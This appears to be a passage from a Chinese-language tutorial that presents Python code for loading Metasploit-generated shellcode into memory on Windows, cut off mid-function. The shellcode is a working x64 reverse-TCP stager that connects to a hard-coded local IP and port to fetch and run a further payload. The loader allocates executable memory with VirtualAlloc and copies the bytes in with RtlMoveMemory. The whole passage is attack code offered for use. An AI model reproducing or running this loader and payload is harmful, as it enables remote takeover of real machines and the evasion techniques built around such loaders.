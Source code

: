 

下述是申请内存加载的python版本代码:

```python
#使用MSF生成的python格式的ShellCode
buf =  b""
buf += b"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51"
buf += b"\x41\x50\x52\x48\x31\xd2\x51\x65\x48\x8b\x52\x60"
buf += b"\x56\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x0f\xb7"
buf += b"\x4a\x4a\x48\x8b\x72\x50\x4d\x31\xc9\x48\x31\xc0"
buf += b"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
buf += b"\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x41\x51\x8b"
buf += b"\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
buf += b"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48"
buf += b"\x85\xc0\x74\x67\x48\x01\xd0\x44\x8b\x40\x20\x50"
buf += b"\x49\x01\xd0\x8b\x48\x18\xe3\x56\x48\xff\xc9\x4d"
buf += b"\x31\xc9\x41\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0"
buf += b"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1"
buf += b"\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
buf += b"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
buf += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x41\x58"
buf += b"\x41\x58\x48\x01\xd0\x5e\x59\x5a\x41\x58\x41\x59"
buf += b"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
buf += b"\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49"
buf += b"\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49"
buf += b"\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5"
buf += b"\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x2f\x9b\x41\x54"
buf += b"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
buf += b"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41"
buf += b"\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50"
buf += b"\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89"
buf += b"\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf"
buf += b"\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
buf += b"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
buf += b"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00"
buf += b"\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9"
buf += b"\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8"
buf += b"\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20"
buf += b"\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00"
buf += b"\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4"
buf += b"\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
buf += b"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba"
buf += b"\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
buf += b"\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00"
buf += b"\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41"
buf += b"\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c"
buf += b"\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6"
buf += b"\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2"
buf += b"\xf0\xb5\xa2\x56\xff\xd5"

#bytearray()函数返回一个新字节数组
shellcode= bytearray(buf)


#VirtualAlloc函数用来开辟内存空间,返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))

#RtlMoveMemory函数将Shellcode加载至此段内存空间
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
   ctypes.c_uint64(ptr),
   buf,
```